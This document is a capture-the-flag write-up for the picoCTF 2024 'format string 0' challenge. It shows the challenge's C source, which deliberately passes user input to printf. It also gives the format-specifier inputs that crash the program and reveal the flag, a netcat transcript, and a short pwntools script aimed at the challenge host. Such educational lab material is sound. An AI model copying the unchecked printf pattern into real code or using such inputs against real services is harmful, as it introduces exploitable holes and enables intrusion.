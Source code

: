 ```yaml
---
title: Format String 0
parent: Easy
grand_parent: Pwn
great_grand_parent: PicoCTF
nav_order: 1
---
```


# format string 0 - PicoCTF 2024

**Category:** Binary Exploitation  
**Difficulty:** Easy  
**Tags:** Format String, pwntools

---

## Challenge Description

> Can you use your knowledge of format strings to make the customers happy?
> 
> Files provided:
> - `format-string-0` (binary)
> - `format-string-0.c` (source code)
> - Remote instance: `nc mimas.picoctf.net <port>`

> <details>
>   <summary>Hints</summary>
>   This is an introduction of format string vulnerabilities. Look up "format specifiers" if you have never seen them before.
>   Just try out the different options
> </details>

---

## Initial Analysis

Upon reading the description and reviewing the source code, it's clear that:

- A Format String attack with be at play

> Format String attacks are attacks where arbitrary code execution can occur, resulting in numerous vulnerabilities such as: RCE, buffer overflows, DoS, etc. This can occur when the printf() function does not handle its parameters appropriately.

---

## Source Code Analysis

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

int on_menu(char *burger, char *menu[], int count) {
    for (int i = 0; i < count; i++) {
        if (strcmp(burger, menu[i]) == 0)
            return 1;
    }
    return 0;
}

void serve_patrick();

void serve_bob();


int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}

void serve_patrick() {
    printf("%s %s\n%s\n%s %s\n%s",
            "Welcome to our newly-opened burger place Pico 'n Patty!",
            "Can you help the picky customers find their favorite burger?",
            "Here comes the first customer Patrick who wants a giant bite.",
            "Please choose from the following burgers:",
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

void serve_bob() {
    printf("\n%s %s\n%s %s\n%s %s\n%s",
            "Good job! Patrick is happy!",
            "Now can you serve the second customer?",
            "Sponge Bob wants something outrageous that would break the shop",
            "(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}
```

### Key Observations
- There are two individuals we must serve
- There are three options for us to choose from to serve each individual
- There are constraints that will dictate which options we choose
    - Patrick: `Gr%114d_Cheese` (passes since the printed characters exceed 64 bytes)
    - Bob: `Cla%sic_Che%s%steak` (triggers the vulnerability since it is the only option with `%s`)

---

## Static Binary Analysis

No binary analysis is necessary for this challenge.

---

## Exploitation

### Plan

1. Submit the necessary food based on our previous analysis
2. Receive the flag

### Manual Exploitation

```
$ nc mimas.picoctf.net 49618
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{<censored>}
```

### Automated Exploitation with pwntools

```python
from pwn import *
import sys

if len(sys.argv) != 2:
  print(f"Usage: {sys.argv[0]} <port>")
  sys.exit(1)

host = 'mimas.picoctf.net'
port = int(sys.argv[1])

conn = remote(host, port)

# First customer (Patrick)
conn.recvuntil(b"Enter your recommendation:")
conn.sendline(b"Gr%114d_Cheese")

# Second customer (Sponge Bob)
conn.recvuntil(b"Enter your recommendation:")
conn.sendline(b"Cla%sic_Che%s%steak")

# Receive flag
print(conn.recvall().decode())
```

## Key Takeaways
- Format String attacks can be utilized to exploit a program in various ways
- Binary analysis is not always necessary in a pwn challenges